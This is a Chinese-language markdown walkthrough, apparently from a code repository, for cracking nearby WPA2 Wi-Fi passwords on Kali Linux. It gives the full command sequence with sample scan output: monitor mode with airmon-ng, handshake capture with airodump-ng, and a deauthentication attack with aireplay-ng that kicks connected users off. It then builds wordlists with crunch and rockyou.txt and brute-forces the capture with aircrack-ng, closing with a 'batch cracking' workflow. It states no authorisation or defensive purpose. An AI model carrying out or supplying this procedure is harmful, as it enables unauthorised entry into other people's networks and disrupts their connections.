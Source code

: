 ## wifi密码
1. sudo -i 
2. ifconfig
3. airmon-ng  
4. airmon-ng start wlan0  发起监听网卡
5. ifconfig
6. airodump-ng wlan0mon 扫描周边wifi（wlan0mon是上一步ifconfig查询出来的网卡名）
扫描出来的大概信息为 ： 
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID                                                                                                                                                                                                                                                                                                                                                                      
 08:60:83:A4:88:90  -58        3      147   20   3  130   WPA2 CCMP   PSK  CMCC-2EFH                                                                                                                              
 EC:6C:B5:98:CA:40  -61        9       11    0   9  130   WPA2 CCMP   PSK  CMCC-208
扫描出来的wifi信息 原来抓包 ，需要用到bssid（mac地址）  和 ch （频段） 
7. 抓包到handshake （被动的抓包模式 需要有用户上下线 ，所以我们使用另外更快的方法,可以促进它加速完成）
airodump-ng -c 9 --bssid EC:6C:B5:98:CA:40  -w /home/kail/桌面/handshake wlan0mon

8. 使用ack死亡攻击 踢下线 ，WiFi有自动登入功能，重新登录我们就可以立马抓到包了

aireplay-ng -0 10 -a EC:6C:B5:98:CA:40 -c 30:03:C8:3B:D7:C7 wlan0mon 

    0 代表下线; 10 代表攻击10次 ; -a后面是mac地址 ;-c后面是我们上一步抓包的STATION ，代表设备(选中一个流量跑得快的设备)

当抓包的终端头部出现 ...WPA handshake: EC:6C:B5:98:CA:40...  代表我们抓包成功了！
会在桌面上生成4-5个文件 ， 我们主要用到.cap文件

9. 准备字典  生成字典 （如下）

10. 暴力破解 

跑本地字典 ： 
aircrack-ng -w /home/kail/passwords-1.txt -b EC:6C:B5:98:CA:40 /home/kail/桌面/handshake-0*.cap

aircrack-ng -w /root/00000000-99999999.txt -b EC:6C:B5:98:CA:40 /home/kail/桌面/handshake-0*.cap
跑生成的字典 ： 
    -w 后面是我们放在桌面的字典  -b后面是BSSID地址  以及我们抓包的文件地址

## 准备字典  生成字典

  使用crunch工具进行 字典生成  优化规则
/usr/share/crunch/ 找到定义好的字符集  
1. 28.lalpha-numeric                = [abcdefghijklmnopqrstuvwxyz0123456789]
2. 40.mixalpha-numeric-all       = [abcdefghijklmnopqrstuvwxypqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789]

执行生成命令 : 

crunch 8 8 /usr/share/crunch/charset.lst lalpha-numeric  

执行这个命令后，Crunch工具将生成一个包含所有可能的8位长度的小写字母和数字组合的密码列表。这个列表可以用于密码破解或测试密码强度。请注意，由于密码长度为8位，生成的密码列表可能非常大，需要一定的时间和资源。生成这个密码字典为3Gb



根据字符集生成密码 -o START 路径.txt 可以输出文件
表示 生成最短8个 最长8个 指定字符集规则的文件
crunch 8 8 /usr/share/crunch/charset.lst mixalpha-numeric-all

crunch 8 8 /usr/share/crunch/charset.lst mixalpha-numeric-all -b 1gb -o START /home/kail/

//生成指定字符串
crunch 8 8 abcdefghijklmnopqrstuvwxypqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -b 1gb -o START /home/kail/

crunch 8 8 abcdefghijklmnopqrstuvwxypqrstuvwxyz0123456789 -d 1 -b 1gb -o START /home/kail/

crunch 8 8 0123456789 -b 1gb -o START /home/kail/

### kail自带字典   

Kali自带的字典文件在/usr/share/wordlists下，将rockyou.txt.gz解压得到rockyou.txt字典文件（该文件包含一千多万个唯一密码）
    解压  gzip -d  /usr/share/wordlists/rockyou.txt.gz     
    解压后文件夹 /usr/share/wordlists/rockyou.txt


## 批量破解流程

扫描周边wifi 
airmon-ng start wlan0 
airodump-ng wlan0mon

抓包  bssid（mac地址） 和 ch （频段） 也是这里的-c
airodump-ng -c 6 --bssid F4:84:8D:9A:56:EE -w /home/apple/桌面/handshake wlan0mon

攻击  -a后面是mac地址 ;-c后面是我们上一步抓包的STATION
aireplay-ng -0 10 -a F4:84:8D:9A:56:EE -c EC:2E:98:93:AF:2F wlan0mon

破解  -w 后面是我们放在桌面的字典  -b后面是BSSID地址  以及我们抓包的文件地址
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b F4:84:8D:9A:56:EE /home/apple/桌面/handshake-02.cap

## vmware 操作支持 


外接wifi 使得虚拟机可以使用外接网卡 


虚拟机 - 可移动设备 - 801.11 n wlan(找到插入的网卡) - 连接